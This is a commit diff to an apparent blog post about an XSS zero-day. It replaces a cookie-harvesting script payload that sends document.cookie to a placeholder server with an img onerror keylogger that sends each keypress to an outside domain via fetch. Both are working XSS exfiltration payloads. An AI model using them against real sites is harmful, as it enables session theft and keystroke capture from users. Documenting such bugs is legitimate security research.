

Before and after one commit to Halcy0nic/Halcy0nic.github.io, a Jekyll site: the page built from _posts/2020-01-23-mk-zero-day.md, in a window 1280 px wide and 900 px high, scrolled down 4396 px. Shown: the part 152-450 px from the top of the window, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Replacing harvest payload with something better

````diff
--- a/_posts/2020-01-23-mk-zero-day.md
+++ b/_posts/2020-01-23-mk-zero-day.md
@@ -90,7 +90,7 @@ This XSS bug not only modifies the DOM but is reflected in the URL. This means w
 
 Harvesting cookies and shipping them off to a remote server is also quite simple:
 ```
-</h3><script>document.location='http://yourserver.com/cookieharvest.php?d='+document.cookie;</script><h3>
+</h3><img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'><h3>
 ```
 
 From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include:
````
